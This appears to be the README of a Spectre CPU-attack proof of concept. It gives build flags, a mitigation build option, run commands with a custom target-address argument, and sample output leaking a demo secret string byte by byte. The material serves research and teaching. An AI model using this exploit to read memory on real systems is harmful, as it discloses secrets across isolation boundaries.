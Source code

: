 # SpectrePoC

Proof of concept code for the Spectre CPU exploit.

## Attribution

The source code originates from the example code provided in the "Spectre Attacks: Exploiting Speculative Execution" paper found here:

https://spectreattack.com/spectre.pdf

The original source code used in this repository was conveniently provided by Erik August's gist, found here: https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6

The code has been modified to fix build issues, add workaround for older CPUs, and improve comments where possible.

## Building

The project can be built with GNU Make and GCC.

On debian these are included in the `build-essential` metapackage.

Building is as easy as:

`cd SpectrePoC`

`make`

The output binary is `./spectre.out`.

If you want to build a version with mitigation included, set your `CFLAGS`

`CFLAGS=-DMITIGATION`

in the `Makefile` or build like

`CFLAGS=-DMITIGATION make`

The output binary will still be in `./spectre.out`.

### Building for older CPUs

Depending on the CPU, certain instructions will need to be disabled in order for the program to run correctly.

The instructions in question are:

#### rdtscp:

Introduced with x86-64.
All 32-bit only CPUs, including many Core 2 Duos, will need to disable this instruction.

To build the project without `rdtscp`, define the NORDTSCP cflag:

`CFLAGS=-DNORDTSCP make` 

#### mfence:
Introduced with SSE2.
Most CPUs pre-Pentium 4 will need to disable this instruction.

To build the project without `mfence`, define the NOMFENCE cflag:

`CFLAGS=-DNOMFENCE make`

#### clflush
Introduced with SSE2.
Most CPUs pre-Pentium 4 will need to disable this instruction.

To build the project without `clflush`, define the NOCLFLUSH cflag:

`CFLAGS=-DNOCLFLUSH make`

To define multiple cflags, separate each cflag with an escaped space. For example:

`CFLAGS=-DNORDTSCP\ -DNOMFENCE\ -DNOCLFLUSH make`

### Building it without using the Makefile

If you want to build it manually, make sure to disable all optimisations (aka, don't use -O2), as it will break the program.

## Executing

To run spectre with default cache hit threshold of 80, and the secret example string "The Magic Words are Squeamish Ossifrage." as the target, run `./spectre.out` with no command line arguments.

**Example:** `./spectre.out`

The cache hit threshold can be specified as the first command line argument. It must be a whole positive integer.

**Example:** `./spectre.out 80`

A custom target address and length can be given as the second and third command line arguments, respectively.

**Example:** `./spectre.out 80 12345678 128`

## Tweaking

If you're getting lackluster results, you may need to tweak the cache hit threshold. This can be done by providing a threshold as the first command line argument.

While a value of 80 appears to work for most desktop CPUs, a larger value may be required for slower CPUs. For example, on a AMD GX-412TC SOC, a value of 100-300 was required to get a good result.

## Contributing

Feel free to add your results to the "Results" issue. Include your cache hit threshold, OS details, CPU details like vendor Id, family, model name, stepping, microcode, MHz, and cache size. The OS can be found by running `uname -a`. CPU info can be found by running `cat /proc/cpuinfo` on Linux, and `sysctl -a | grep machdep.cpu` on OSX.

## Example output

The following was output on an AMD GX-412TC SOC, with a cache hit threshold of 100:

`./spectre.out 100:`

```
Using a cache hit threshold of 100.
Build: RDTSCP_SUPPORTED CLFLUSH_SUPPORTED
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfedf8... Success: 0x54=’T’ score=2
Reading at malicious_x = 0xffffffffffdfedf9... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfedfa... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfedfb... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfedfc... Success: 0x4D=’M’ score=2
Reading at malicious_x = 0xffffffffffdfedfd... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfedfe... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfedff... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfee00... Success: 0x63=’c’ score=2
Reading at malicious_x = 0xffffffffffdfee01... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee02... Success: 0x57=’W’ score=2
Reading at malicious_x = 0xffffffffffdfee03... Success: 0x6F=’o’ score=2
Reading at malicious_x = 0xffffffffffdfee04... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfee05... Success: 0x64=’d’ score=2
Reading at malicious_x = 0xffffffffffdfee06... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee07... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee08... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfee09... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfee0a... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfee0b... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee0c... Success: 0x53=’S’ score=2
Reading at malicious_x = 0xffffffffffdfee0d... Success: 0x71=’q’ score=2
Reading at malicious_x = 0xffffffffffdfee0e... Success: 0x75=’u’ score=2
Reading at malicious_x = 0xffffffffffdfee0f... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfee10... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfee11... Success: 0x6D=’m’ score=2
Reading at malicious_x = 0xffffffffffdfee12... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfee13... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee14... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfee15... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee16... Success: 0x4F=’O’ score=2
Reading at malicious_x = 0xffffffffffdfee17... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee18... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee19... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfee1a... Success: 0x66=’f’ score=2
Reading at malicious_x = 0xffffffffffdfee1b... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfee1c... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfee1d... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfee1e... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfee1f... Success: 0x2E=’.’ score=2
```
